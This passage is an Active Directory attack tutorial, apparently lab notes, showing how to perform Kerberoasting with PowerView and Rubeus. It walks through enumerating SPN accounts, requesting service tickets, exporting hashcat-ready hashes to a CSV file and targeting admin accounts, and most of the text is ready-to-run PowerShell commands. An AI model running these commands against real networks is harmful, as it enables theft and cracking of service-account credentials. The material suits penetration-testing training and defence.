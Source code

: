 Automated tools simplify Kerberoasting by combining enumeration, ticket requests, and hash extraction into fewer steps.



#### **Using PowerView**
1. **Import PowerView Module**:
   - Load the PowerView script into the PowerShell session:
   ```powershell
    Import-Module .\PowerView.ps1
   ```

2. **Enumerate SPNs**:
   - List all SPN-enabled user accounts in the domain:
   ```powershell
    Get-DomainUser * -spn | select samaccountname
   ```

3. **Retrieve Tickets**:
   - Request a TGS ticket for a specific account and format it for `hashcat`:
   ```powershell
    Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
   ```

4. **Export All Tickets**:
   - Export tickets for all SPN-enabled accounts to a CSV file for offline processing:
   ```powershell
    Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
   ```



#### **Using Rubeus**
1. **Basic Kerberoasting**:
   - Request all TGS tickets in the domain:
   ```powershell
    .\Rubeus.exe kerberoast /nowrap
   ```
   - **Explanation**:
     - `/nowrap`: Ensures Base64 ticket blobs are not wrapped across multiple lines.

2. **Target Specific SPNs**:
   - Request a TGS ticket for a specific SPN:
   ```powershell
    .\Rubeus.exe kerberoast /spn:"MSSQLSvc/SQLSERVER"
   ```

3. **Filter by Admin Accounts**:
   - Target high-value accounts with the `admincount` attribute set:
   ```powershell
    .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
   ```

4. **View Statistics**:
   - View the encryption types and password last set dates for Kerberoastable accounts:
   ```powershell
    .\Rubeus.exe kerberoast /stats
   ```
